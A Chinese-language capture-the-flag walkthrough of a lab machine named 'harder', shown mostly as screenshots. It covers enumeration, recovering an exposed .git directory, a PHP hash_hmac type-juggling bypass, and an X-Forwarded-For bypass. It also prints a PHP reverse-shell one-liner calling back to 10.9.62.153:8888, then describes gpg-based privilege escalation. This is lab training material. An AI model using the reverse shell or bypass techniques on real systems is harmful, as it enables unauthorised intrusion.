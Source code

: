 # harder

结合真实的渗透测试结果。该机器的灵感完全来自现实世界的渗透测试结果。也许你会认为它们非常具有挑战性，但没有任何兔子洞。一旦你有一个 shell，知道使用哪个底层 Linux 发行版以及某些配置的位置是非常重要的。

---

## 端口扫描

循例 nmap

![在这里插入图片描述](https://img-blog.csdnimg.cn/e48941c482cd470797f8eaa0ed1d7c1e.png)

## Web枚举

进80

![在这里插入图片描述](https://img-blog.csdnimg.cn/74435be4511f4981accc483438333762.png)

### 目录扫描

上gobuster，发现报错，原因是不管请求的页面存不存在，都是200，仅在页面内容显示404

![在这里插入图片描述](https://img-blog.csdnimg.cn/5401e36a043d48e5a887388ae6624f79.png)

上ffuf

![在这里插入图片描述](https://img-blog.csdnimg.cn/9b98ca9f69164a8e936b2fd131d91158.png)

扫到phpinfo和vendor

继续对vendor扫，一层层扫进去最后无果

![在这里插入图片描述](https://img-blog.csdnimg.cn/f354595ab90b4bacb57ccaab3b68d282.png)

在查看响应的时候发现响应头有个域名

![在这里插入图片描述](https://img-blog.csdnimg.cn/24f5498d9ff642f3975b8103941260c7.png)

将其添加进hosts

![在这里插入图片描述](https://img-blog.csdnimg.cn/26c84c0e8db94afa8058c0ac4f39f8a8.png)

进入pwd子域，是一个登录框

![在这里插入图片描述](https://img-blog.csdnimg.cn/35a672a50bf34d73b86b14c4998161c1.png)

随手一个admin:admin，进去

![在这里插入图片描述](https://img-blog.csdnimg.cn/68ce6f9c3c4946e887a774b7379658ae.png)

gobuster扫一波，有东西

![在这里插入图片描述](https://img-blog.csdnimg.cn/9d89d7c5ab7d4f11b1013d5726cda115.png)

发现有.git，直接上githacker

![在这里插入图片描述](https://img-blog.csdnimg.cn/642261cb722f4a0ca3673897b867f633.png)

### PHP代码审计

得到三个php文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/a191bc1296da48bd98604b86b4a633cb.png)

有利用价值的信息在hmac.php

```php
<?php
if (empty($_GET['h']) || empty($_GET['host'])) {
   header('HTTP/1.0 400 Bad Request');
   print("missing get parameter");
   die();
}
require("secret.php"); //set $secret var
if (isset($_GET['n'])) {
   $secret = hash_hmac('sha256', $_GET['n'], $secret);
}

$hm = hash_hmac('sha256', $_GET['host'], $secret);
if ($hm !== $_GET['h']){
  header('HTTP/1.0 403 Forbidden');
  print("extra security check failed");
  die();
}
?>
```

这段代码利用\$secret将host变量进行sha256加密然后将加密的host 即\$hm与h进行是否相等判断，虽然我们不知道\$secret的值，但是在代码中，会利用\$n变量进行sha256加密然后赋值给\$secret

目前就是要想办法利用\$n将\$secret变得可控

在php hash_hmac官方文档当中，有一条有意思的评论

![在这里插入图片描述](https://img-blog.csdnimg.cn/f96933d436454ad0a63f7e898da09381.png)

其实这里就是利用了hash_hmac的data参数只允许string的问题，如果data是非字符串，则函数直接返回空

利用这一点，我们就可以利用\$n来控制\$secret

![在这里插入图片描述](https://img-blog.csdnimg.cn/470f99c457ba4c6d8f164a122ff5ad21.png)

丢到靶机，可以看到状态码已经是200，说明通过了，但是仍然没有数据

![在这里插入图片描述](https://img-blog.csdnimg.cn/7768169a9a6d40d9965550387870e74e.png)

在index.php当中也导入hmac.php，去那边试试

![在这里插入图片描述](https://img-blog.csdnimg.cn/d4d799df2c4c400888f5cf0cc3a720ca.png)

得到了一组新凭据和一个子域

![在这里插入图片描述](https://img-blog.csdnimg.cn/dd76a35966bc4398bbb9a8bbd6ed481b.png)

将子域添加进hosts，进去看看

![在这里插入图片描述](https://img-blog.csdnimg.cn/4af715e20aba4935a0b5897284384f25.png)

又是这个登录框，使用刚刚获得的凭据登录

![在这里插入图片描述](https://img-blog.csdnimg.cn/6b06962cd18c4dd58ac6f7040cbb5dc3.png)

使用X-Forwarded-For轻松绕过

![在这里插入图片描述](https://img-blog.csdnimg.cn/0d700419fc074b8aa870b7b3d6a3dd64.png)

## Reverse Shell

能执行命令

![在这里插入图片描述](https://img-blog.csdnimg.cn/ba43ab2080da46d48e15cab9b0ebb88d.png)

这里使用php来getshell

	cmd=php+-r+'$sock%3dfsockopen("10.9.62.153",8888)%3bpopen("/bin/sh+<%263+>%263+2>%263",+"r")%3b'

**值得注意的是，shellcode必须是/bin/sh而不是bash，因为靶机根本没有/bin/bash**

![在这里插入图片描述](https://img-blog.csdnimg.cn/b4be04e2b04b437187c4c31ec4a135bd.png)

user flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/5b202666bc464cacb4d782ab69b832df.png)

## 横向移动

find www用户所有文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/e0cfda02318e47c78101dcb8ff876478.png)

给了evs的凭据，这docker里su没有suid，无法直接su过去，所有需要在外面ssh登录

![在这里插入图片描述](https://img-blog.csdnimg.cn/97e7cae1ad45461fb1a76efc8cf72332.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/cedfa907c9724c6184f00ab6d82a9e33.png)

## 权限提升

但这个脚本的注释给出的信息，说明可能还有其他脚本

![在这里插入图片描述](https://img-blog.csdnimg.cn/5fd108fae0f14cfbb1b08f17ac57f5f9.png)

这里是利用gpg加密需要执行的命令然后使用execute-crypted命令执行

![在这里插入图片描述](https://img-blog.csdnimg.cn/eaa62aea8d3f4f7fa5addc4146547f6d.png)

这里只需要跟着脚本中说的做即可，但首先需要找到公钥，之后才能使用公钥加密

![在这里插入图片描述](https://img-blog.csdnimg.cn/2a6b3278ceb24374b8421100a122ca37.png)

执行命令的文件./cmd

![在这里插入图片描述](https://img-blog.csdnimg.cn/9e2f38444289468b9fecab39b8267e35.png)

导入公钥

![在这里插入图片描述](https://img-blog.csdnimg.cn/2866c1e465c845d39e17db7130897b5e.png)

利用公钥加密

![在这里插入图片描述](https://img-blog.csdnimg.cn/585682d9e86f41a5b13d9a0a1f50ef57.png)

开启nc监听，execute-crypted执行cmd.gpg

![在这里插入图片描述](https://img-blog.csdnimg.cn/9be8390e20e24e6a91e3ab5033ca9a86.png)

getroot